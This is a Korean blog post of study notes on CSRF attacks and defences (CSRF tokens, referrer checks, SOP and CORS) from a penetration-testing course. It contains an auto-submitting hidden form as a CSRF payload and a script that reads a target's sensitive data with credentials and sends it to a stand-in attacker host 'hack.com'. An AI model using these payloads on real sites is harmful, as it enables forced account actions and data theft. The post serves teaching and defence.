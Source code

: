 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[WEB HACKING] CSRF란?"
excerpt: "모의해킹 취업반 스터디 7기 12 ~ 13주차"

date: 2025-01-09
last_modified_at: 2025-01-18

categories: [SECURITY]
tags: [TIL, WEB, SECURITY]
---
```


# CSRF란?
## 1. 개요
**CRSF(Cross Site Request Forgery)**: 
-> 피해자가 서버로 공격자가 원하는 요청을 하게 만드는 것
웹 애플리케이션 취약점 중 하나로 사용자가 자신의 의지와 무관하게 공격자가 의도한 행동을 하여 특정 웹페이지를 보안에 취약하게 한다거나 수정, 삭제 등의 작업을 하게 만드는 공격방법을 의미한다. 유명 경매 사이트 옥션의 개인정보 유출 사건에 사용된 공격 방식이다.

## 취약점
모든 요청에서 발생 가능

## 공격방식

## 공격유형

## 공격 구문 예시
## post method로만 파라미터 전달이 가능할 때 csrf 공격방식
form tag를 삽입해야 한다 -> XSS로부터 무결해야 한다

```html
<iframe style="display:none" name="frame"></iframe>

<form method="POST" action="link" id="test" target="frame">
<input type="hidden" name="email" value="test@example.com"/>
</form>

<script>
document.getElementById('test').submit();
</script>
```

## 공격 순서
모든 요청에서 CSRF가 발생가능하다
이 요청은 위조해도 되는가
이 요청은 함부로 위조할 수 있는가

## 대응방안
### CSRF Token
csrf 공격을 막기 위해 만든 random한 token
마이페이지에 접근할 때 토큰 발행

```html
<form>
<input type="hidden" name="csrfToken" value="random_value">
</form>
```

정보를 수정할 때 csrf 토큰을 함께 받도록 요청한다
csrf 토큰도 탈취해야 하는구나?
사용자의 form 태그가 있는 페이지에 접근할 때 csrf 토큰이 발행된다

### referrer check
확장성이 떨어질 수 있다
개발자가 예외처리를 했을 경우
-> `<meta name='referrer' content='no-referrer'>`

### 요청을 위조할 수 없게 하자
파라미터에 모르는 데이터를 넣게 하자 -> 인증정보
인증정보를 넣는 것!

### SOP / CORS
#### SOP, Same-Origin Policy
다른 출처의 자원에 접근하지 못하게 브라우저가 막는 것

같은 출처의 기준
- 도메인
- 스키마
- 포트

#### CORS, Cross Origin Resource Sharing
다른 출처에서도 데이터를 쓸 수 있게 함

ACAO Header, Access Controll Allow Origin
-> 응답에 들어감

acao header에 요청이 존재하냐
자원을 허용할 도메인을 등록해두는 것이다

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://target.com/seneitive-data', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = 'http://hack.com/log?key='+this.responseText;
    };
</script>
```

브라우저에 로드는 되는데 자바스크립트로 접근이 되냐 안되냐는 cors에 등록된 것만 가능하다

-> White List로 개발자가 하나하나 추가해줘야 함
하지만 개발자가 귀찮으시잖아~
`ACAO: *` -> SOP가 없는 것과 마찬가지다
다른 도메인에서 쿠키를 포함해서 요청한 것에 대한 응답은 * 못 씀
ACAC Header
Origin에 있는 데이터를 ACAO 헤더에 그대로 옮겨주자

CSRF
GET 방식이면 프리패스
POST -> XSS, form tag
CORS 정책이 잘 적용되어 있지 않다 -> 공격자 서버 만들어서 공격

# 참고
* [CSRF 공격과 방어 기법](https://velog.io/@gwanuuoo/CSRF-%EA%B3%B5%EA%B2%A9%EA%B3%BC-%EB%B0%A9%EC%96%B4-%EA%B8%B0%EB%B2%95)
* [Spring Security_CSRF Token의 개념과 사용 방법](https://codevang.tistory.com/282)
